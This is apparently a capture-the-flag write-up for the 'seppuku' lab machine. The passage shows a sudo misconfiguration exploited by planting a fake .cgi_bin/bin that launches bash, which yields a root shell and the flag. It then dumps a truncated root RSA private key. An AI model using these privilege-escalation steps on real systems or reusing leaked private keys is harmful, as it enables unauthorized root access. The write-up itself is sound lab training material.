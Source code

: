 ```bash
samurai@seppuku:~$ whoami
samurai
samurai@seppuku:~$ id
uid=1001(samurai) gid=1002(samurai) groups=1002(samurai)
samurai@seppuku:~$ sudo -l
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
samurai@seppuku:~$
```

we got to know that `samurai` can execute command inside `/home/tanto/.cgi_bin/bin /tmp/` as `sudo` but doing so return command not found 

I sshed into the user `tanto` and checked if there is `.cgi_bin/bin` file in `/home/tanto/` directory but there was not. so what I did is 

```jsx
tanto@seppuku:~$ python -c 'import os; os.system("/bin/bash")'
tanto@seppuku:~$ mkdir .cgi_bin/
tanto@seppuku:~$ echo '/usr/bin/bash' > .cgi_bin/bin
tanto@seppuku:~$ chmod 777 .cgi_bin/bin 
```

and executed `sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*` command in the shell of `samurai` user and got the root shell

```bash
root@seppuku:/home/samurai# whoami
root
root@seppuku:/home/samurai# id
uid=0(root) gid=0(root) groups=0(root)
root@seppuku:/home/samurai# cd /root
root@seppuku:~# ls
proof.txt  root.txt
root@seppuku:~# cat root.txt 
Your flag is in another file...
root@seppuku:~# cat proof.txt 
42d824a689fae63af3d63400e98d573b
```

### [R00T FLAG]

`42d824a689fae63af3d63400e98d573b`

## [#] Post-Exploitation

in `/root/.ssh/` folder we got the RSA private key for the `root` shell

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA0qKvFdbmLH5QMTbLodPPdwU6byD4Ws8RLr5X3oZvnDyvvVlL
uJi5kDBXPjlpcUxWjLzWzGH7HHGdQYm5UoW9jJS2Acj817PbnfWtZaOSVSHwdttt
NrizVhMjkBNW8XpRavlpqoGQKsp1gxheAYoNxa6H5e7ZL89Zv2aWs2bmdYgcadhC
NYTYddupsDp8xNuTHtGN+le4xesE4+5etghBPE4cNFbY0te0FeC/C6fowo/+2UuN
PsQGrdK87/tbudMKSZpg2WaRbjjJxrVmlAmLEtb+Zt/oTFSDIWYG0X+ul/6HT1S7
MnuGaFiEEKWUTD6LOLnq8WJ3JDtUEl9G1JMTbwIDAQABAoIBAE0ixnt491HT8AoV
xvy8VH2BrKSFrm2S5vf3PLaBBN5yWuk8ij5Pr6TeDxT6cWLMUeW4QfEW8J65/JzD
ktpln8SbsQt2TyGu+/4cuiM+g5gplaXxNU2U1hfvalaYvn4wDSDftZJ7YBBLlD0t
7z8hD2oVQC80CNU5WeR97TJFvJ/NToaNOVY2cvz3d4sS/1zIts+5H7OxaUUekWeq
OjayahRCFJoeW+IK3pXzInNUY1kaI1jOuJHhzln5W6jC+VwhbDKrxIndWRYlmhvH
mm+sp5z8csTI7LGJPAZIstduZEGV2HEM7FuI+lcTh2ReO1Y5fr5VgV0FpAAyNQxj
h5BD9gECgYEA6Iq27YbPyZAiGF9GOiyxwX12dLar2YRjhIyItJstkhMGijECXpZE
cj7yS0o4t9xE2QmOJ+Gb9eZA7sD8Q9Ns8t65tAny3tp06kOqfxsUKZBMBt/+apkc
```